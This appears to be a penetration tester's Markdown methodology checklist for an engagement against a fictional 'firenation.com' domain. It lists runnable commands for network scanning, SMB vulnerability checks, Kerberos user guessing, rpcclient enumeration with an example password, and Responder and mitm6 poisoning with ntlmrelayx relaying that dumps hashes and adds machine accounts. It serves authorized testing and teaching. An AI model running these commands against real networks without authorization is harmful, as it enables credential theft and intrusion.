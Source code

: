 # Pentest Methodology
This will address methodology, things to remember, things to try if you're stuck, and things like these during pentests. The focus will be for a 5-day pentest focusing on stealing cardholder data or breaking into a segmented network; however, most of these techniques can be used for any type of offensive security engagement though.

The focus here is on steps to take, tools to run, things to check. Other files in this repo have the specific commands to run. I've linked to those where possible.

## Things to Not Forget
- Day 1: Focus on recon, scanning, and information gathering.
  - [ ] Begin scanning the target network segment to see if anything can reach it
  - [ ] If wireless is in scope, set this up and let it run/capture
  - [ ] Ask a contact to access the target network and verify the way they do it + document -- if remote, get documentation
  - [ ] Map out the network & target environment -- don't worry about exploitation yet, diligence in enumeration will pay off
  - [ ] Start password spraying soon, being mindful of lockout policy (just ask)

- Day 2: Focus on foothold
  - [ ] Attempt to get a foothold/creds if you don't already have one
  - [ ] Once you have a foothold, map out the directory enviro

## Open Source Intelligence

## Wireless

## Network Scanning & Enumeration
- [ ] Kick off a Nessus scan if applicable
- [ ] Ping sweep
- [ ] Kick off a big top 1024 scan. Don't forget to log it in case the scans hang up. Increase to `-T5` if you're feeling adventurous:
   ```
   mkdir scans
   nmap -iL subnets-firenation.lst -sV -sC -T5 -oA firenation-sV-sC -v | tee scans/nmap.log
   ```
- [ ] Parse through open ports with: https://raw.githubusercontent.com/altjx/ipwn/master/nmap_scripts/nmapscrape.rb
- [ ] Perform reverse DNS lookups on the domain: `nmap -iL subnets-firenation.lst -sL -oA dns-lookup`
- [ ] Scan for SMB and for SMB Signing: `crackmapexec smb open-ports/445.txt | tee scans/cme-smb-scan.log`
- [ ] Get list of SMB open and scan for top MS vulns: `nmap -iL open-ports/445.txt -p445 --script=smb-vuln-ms08-067,smb-vuln-ms17-010 -v | tee scans/nmap-smb-vulns.log`
- [ ] Check for Jenkins instances. [TODO: get Jenkins ports]
- [ ] SNMP checks
- Check for NULL sessions: rpcclient to get info from DC's
- KRB guessing
    pushd /opt/
    wget http://www.cqure.net/tools/krbguess-0.21-bin.tar.gz
    tar xvf krbguess-0.21-bin.tar.gz
    rm  krbguess-0.21-bin.tar.gz
    echo "alias krbguess='/usr/lib/jvm/java-8-openjdk-amd64/bin/java -jar /opt/KrbGuess/krbguess.jar'" >>  /root/.bash_aliases
    popd
    # check out: https://github.com/insidetrust/statistically-likely-usernames
    krbguess --realm firenation.com --server dc.firenation.com --dict ~/opt/jsmith.txt -o krbguess-jsmith-checkfree.txt
- rpcclient
    - Null session is `rpcclient -U '' dc.firenation.com`. MUST include the -U ''
    - Auth session is `rpcclient -U 'azula%F!r3R0cks!' dc.firenation.com`. Interesting cmds:
        - `enumdomusers` - get all the users (probably includes disabled/old accounts too)
- multirelay https://www.secureauth.com/blog/what-old-new-again-relay-attack
- kerberoasting
- asrep roasting

- Check for `sa:sa` and similar
- Scan for eternalblue, bluekeep (esp Win7), and similar
- Check for webmail/Exchange -- mailsniper, ruler, etc
    - https://github.com/sensepost/ruler/wiki/Homepage
    - Log in to O365 or internal and own their mailbox
- Local priv esc: 
    - https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
    - https://book.hacktricks.xyz/windows/windows-local-privilege-escalation
    - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS

## Getting a Foothold
 - [ ] Begin running [Responder](https://github.com/SpiderLabs/Responder):
    ```
    apt update && apt install -y responder
    responder -I eth0 -wrf
    ```
 - [ ] Run [mitm6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/):
    ```
    pip install mitm6
    mitm6 -i eth0 -d firenation.com --debug 
    ```
    *Note: Every time I've run this, it has caused network disruptions. Proceed with caution and check out params `-hw` and `-hb`*
    
 - [ ] Relay NTLM authentication from the above poisoning (this specifically is for `mitm6`)
    ```
    ## Should relay to victim via SMB. Needs local admin (I think maybe RID500...need to verify)
    ntlmrelayx.py --ipv6 -wh wpad.firenation.com -of net-ntlmv2.hsh                   # Attempt to dump SAM 
    ntlmrelayx.py --ipv6 -wh wpad.firenation.com -of net-ntlmv2.hsh -c "systeminfo"   # Runs "systeminfo". Caught by CrowdStrike.

    ## LDAPS NTLM relay (patches may fix this!). Any Domain User can add up to 10 computers by default. Compy can be used for BloodHound.
    ntlmrelayx.py --ipv6 -wh wpad.firenation.com -t ldaps://dc.firenation.com --add-computer
    ##
    ```
 - [ ] If you get hashes, go to [Password Cracking]() checklist
 - [ ] If you crack hashes or get access to network creds, go to [Lateral Movement & Domain PrivEsc]()

## Local PrivEsc

## Lateral Movement & Domain PrivEsc

## Persistence & Data Exfil

## Web App Pentesting
